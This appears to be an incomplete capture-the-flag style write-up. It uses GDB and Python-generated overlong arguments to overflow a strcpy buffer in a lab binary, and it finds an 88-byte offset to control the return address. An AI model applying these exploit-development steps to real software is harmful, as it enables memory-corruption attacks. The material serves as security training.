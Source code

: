
------------------------------ TODO ----------------------------

Set Breakpoint in GDB: We want to break after the strcpy() finishes:
```
(gdb) break *0x00000000004007b8
Breakpoint 1 at 0x4007b8  
```
Run Programm with AAAAAAAAAAA and asdf as parameter

Lets start the program and see where the first parameter is stored. RDI will point to the destination:

```
(gdb) run AAAAAAAAAAA asdf
Starting program: /home/hacker/7380/challenge3_64 AAAAAAAAAAA asdf

Breakpoint 1, 0x00000000004007b8 in handleData ()
(gdb) x/8x $rdi
0x7fffffffe8c0:    0x41414141    0x41414141    0x00414141    0x00007fff
0x7fffffffe8d0:    0xf780a1a8    0x00007fff    0xf7ff79b0    0x00007fff
(gdb) i r rdi
rdi            0x7fffffffe8c0    140737488349376
```
Crash program with 90 x "A"

Re-run the programm with overlong arguments; you see some 0x4141 on the stack (Hex code for A) / nothing to see from B
```
(gdb) run `python -c 'print "A" * 90 + "BBBB"'` test
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/hacker/7380/challenge3_64 `python -c 'print "A" * 90 + "BBBB"'` test

Breakpoint 1, 0x00000000004007b8 in handleData ()
(gdb) c
Continuing.
You ARE admin!
Be the force with you.

Program received signal SIGSEGV, Segmentation fault.
0x0000424242424141 in ?? ()
```

Crash program with 88 x "A"
```
(gdb) run `python -c 'print "A" * 88 + "BBBB"'` test
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/hacker/7380/challenge3_64 `python -c 'print "A" * 88 + "BBBB"'` test

Breakpoint 1, 0x00000000004007b8 in handleData ()
(gdb) c
Continuing.
You ARE admin!
Be the force with you.

Program received signal SIGSEGV, Segmentation fault.
0x0000000042424242 in ?? ()
```
Therefore, the offset is 88 bytes.
